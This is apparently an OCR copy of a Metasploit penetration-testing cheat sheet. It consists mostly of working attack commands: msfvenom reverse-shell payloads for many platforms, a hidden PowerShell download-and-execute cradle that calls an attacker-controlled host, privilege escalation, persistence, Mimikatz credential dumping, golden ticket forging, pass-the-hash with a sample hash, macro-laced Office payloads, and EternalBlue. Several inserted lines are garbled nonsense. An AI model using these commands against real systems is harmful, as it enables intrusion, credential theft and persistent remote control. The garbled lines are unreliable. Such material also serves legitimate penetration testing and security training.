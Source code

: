 # Metasploit

## Summary

* [Installation](#installation)
* [Sessions](#sessions)
* [Background handler](#background-handler)
* [Meterpreter - Basic](#meterpreter---basic)
    * [Generate a meterpreter](#generate-a-meterpreter)
    * [Meterpreter Webdelivery](#meterpreter-webdelivery)
    * [Get System](#get-system)
    * [Persistence Startup](#persistence-startup)
    * [Network Monitoring](#network-monitoring)
    * [Portforward](#portforward)
    * [Upload / Download](#upload---download)
    * [Execute from Memory](#execute-from-memory)
    * [Mimikatz](#mimikatz)
    * [Pass the Hash - PSExec](#pass-the-hash---psexec)
    * [Use SOCKS Proxy](#use-socks-proxy)
* [Scripting Metasploit](#scripting-metasploit)
* [Multiple transports](#multiple-transports)
* [Best of - Exploits](#best-of---exploits)
* [References](#references)
## Installation
```powershell
>curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 >msfinstall && ./msfinstall
```
# or docker
```powershell
$ sudo docker run --rm -it -p 443:443 -v ~/.msf4:/root/.msf4 -v /tmp/msf:/tmp/data remnux/metasploit
```
## Sessions
```powershell
> CTRL+Z   # Session in Background
> sessions -List --session
> sessions -i session_number -> Interact with Session with id
> sessions -u session_number -> Upgrade session to a meterpreter
> sessions -u session_number LPORT=4444 PAYLOAD_OVERRIDE=meterpreter/reverse_tcp HANDLER=false -> Upgrade session to a meterpreter
> sessions -c cmd           -> Execute a command on several sessions
> sessions -i 10-20 -c "id" -> Execute a command on several sessions
```
## Background handler
<>
[!] ExitOnSession :: [+] // handler will not exit if the meterpreter dies.
```powershell
>screen -dRR
>sudo msfconsole
>use exploit/multi/handler
>set PAYLOAD generic/shell_reverse_tcp
>set LHOST 0.0.0.0
>set LPORT 4444
>set ExitOnSession false
~
>generate -o /tmp/meterpreter.exe -f exe
>to_handler
[ctrl+a] + [d]
```
## Meterpreter - Basic, Generate a meterpreter
```powershell
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f elf > shell.elf
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f exe > shell.exe
$ msfvenom -p osx/x86/shell_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f macho > shell.macho
$ msfvenom -p php/meterpreter_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f raw > shell.php; cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f asp > shell.asp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f raw > shell.jsp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f war > shell.war
$ msfvenom -p cmd/unix/reverse_python LHOST="10.10.10.110" LPORT=4242 -f raw > shell.py
$ msfvenom -p cmd/unix/reverse_bash LHOST="10.10.10.110" LPORT=4242 -f raw > shell.sh
$ msfvenom -p cmd/unix/reverse_perl LHOST="10.10.10.110" LPORT=4242 -f raw > shell.pl
```
### Meterpreter Webdelivery
$ [!]PORT:8080::XPLOIT[WEB] -deliver -set --listen
[PORT]
```powershell
>use exploit/multi/script/web_delivery
>set TARGET 2
>set payload windows/x64/meterpreter/reverse_http
>set LHOST 10.0.0.1
>set LPORT 4444
run
```
~
```powershell
> powershell.exe -nop -w hidden -c $g=new-object net.webclient;$g.proxy=[Net.WebRequest]::GetSystemWebProxy();$g.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $g.downloadstring('http://10.0.0.1:8080/rYDPPB');
```
### Get System
$--git -sys
```powershell
$_meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
$_meterpreter > getuid
<>Server username: NT AUTHORITY\SYSTEM
```
### Persistence Startup
```powershell
OPTIONS:

-A        Automatically start a matching exploit/multi/handler to connect to the agent
-L <opt>  Location in target host to write payload to, if none %TEMP% will be used.
-P <opt>  Payload to use, default is windows/meterpreter/reverse_tcp.
-S        Automatically start the agent on boot as a service (with SYSTEM privileges)
-T <opt>  Alternate executable template to use
-U        Automatically start the agent when the User logs on
-X        Automatically start the agent when the system boots
-h        This help menu
-i <opt>  The interval in seconds between each connection attempt
-p <opt>  The port on which the system running Metasploit is listening
-r <opt>  The IP of the system running Metasploit listening for the connect back
$_meterpreter > run persistence -U -p 4242
```
### Network Monitoring
```powershell
# list interfaces
run packetrecorder -li
~
# record interface n°1
run packetrecorder -i 1
```
### Portforward
```powershell
portfwd add -l 7777 -r 172.17.0.2 -p 3006
```
### Upload / Download
```powershell
>upload /path/in/hdd/payload.exe exploit.exe
>download /path/in/victim
```
### Execute from Memory
```powershell
>execute -H -i -c -m -d calc.exe -f /root/wce.exe -a  -w
```
### Mimikatz
```powershell
>load mimikatz
>mimikatz_command -f version
>mimikatz_command -f samdump::hashes
>mimikatz_command -f sekurlsa::wdigest
>mimikatz_command -f sekurlsa::searchPasswords
>mimikatz_command -f sekurlsa::logonPasswords full
```
```powershell
>load kiwi
>creds_all
>golden_ticket_create -d <domainname> -k <nthashof krbtgt> -s <SID without le RID> -u <user_for_the_ticket> -t <location_to_store_tck>
```
### Pass the Hash - PSExec
```powershell
$_msf > use exploit/windows/smb/psexec
>msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
>msf exploit(psexec) > exploit
>SMBDomain             WORKGROUP                                                          no        The Windows domain to use for authentication
_SMBPass               598ddce2660d3193aad3b435b51404ee:2d20d252a479f485cdf5e171d93985bf  no        The password for the specified username
_SMBUser               Lambda                                                             no        The username to authenticate as
```
### Use SOCKS Proxy
```powershell
>setg Proxies socks4:127.0.0.1:1080
```
## Scripting Metasploit
>>>[USE]$_.rc -write Run -cmd.exe
>>>   then, Run [.msfconsole];
>>>      -r .file.rc
>>>   return
>>> -deploy --script \handler\Office.doc --macro
```powershell
>use exploit/multi/handler
>set PAYLOAD windows/meterpreter/reverse_https
>set LHOST 0.0.0.0
>set LPORT 4646
>set ExitOnSession false
>exploit -j -z
>use exploit/multi/fileformat/office_word_macro 
>set PAYLOAD windows/meterpreter/reverse_https
>set LHOST 10.10.14.22
>set LPORT 4646
>exploit
```
## Multiple transports
```powershell
>msfvenom -p windows/meterpreter_reverse_tcp lhost=<host> lport=<port> sessionretrytotal=30 sessionretrywait=10 extensions=stdapi,priv,powershell >extinit=powershell,/home/ionize/AddTransports.ps1 -f exe
```
>>>then, in AddTransports.ps1
```powershell
>Add-TcpTransport -lhost <host> -lport <port> -RetryWait 10 -RetryTotal 30
>Add-WebTransport -Url http(s)://<host>:<port>/<luri> -RetryWait 10 -RetryTotal 30
```
## Best of - Exploits
* MS17-10 Eternal Blue - `exploit/windows/smb/ms17_010_eternalblue`
* MS08_67 - `exploit/windows/smb/ms08_067_netapi`
## References

* [Multiple transports in a meterpreter payload - ionize](https://ionize.com.au/multiple-transports-in-a-meterpreter-payload/)
* [Creating Metasploit Payloads - Peleus](https://netsec.ws/?p=331)
